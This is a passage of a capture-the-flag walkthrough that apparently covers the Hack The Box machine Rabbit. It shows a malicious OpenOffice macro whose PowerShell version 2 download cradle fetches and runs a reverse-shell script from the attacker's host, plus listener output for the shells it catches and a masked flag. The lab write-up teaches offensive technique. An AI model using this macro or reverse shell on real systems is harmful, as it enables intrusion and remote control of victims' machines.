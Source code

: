```

oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.71.
Ncat: Connection from 10.10.10.71:37178.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\OpenOffice 4\program>whoami
htb\raziel

```

And I can read `user.txt`:

```

C:\Users\Raziel\Desktop>type user.txt
c6f45142************************

```

#### Payload #2 - PowerShell -version 2

Another old workaround for constrained language mode was just to tell PowerShell at startup to use an older version, version 2, that doesn’t support it. PowerShell v2 is not likely to be present on any modern systems today, but this definitely was common in 2018.

I’ll give the macro a simple download cradle:

```

Sub OnLoad
    Shell("cmd.exe /C ""powershell.exe -version 2 IEX ((new-object Net.WebClient).DownloadString('http://10.10.14.6/rev.ps1'));""")
End Sub

```

In this case, I’ll grab a [Nishang reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), add a line to the end to call invoke the function back to my host, and save it as `rev.ps1` in the directory my webserver is serving. I’ll send the email just like above, and after many minutes, it connects and returns a shell:

```

oxdf@hacky$ rlwrap -cAr ncat -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.71.
Ncat: Connection from 10.10.10.71:22338.
Windows PowerShell running as user Raziel on RABBIT
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\OpenOffice 4\program>

```
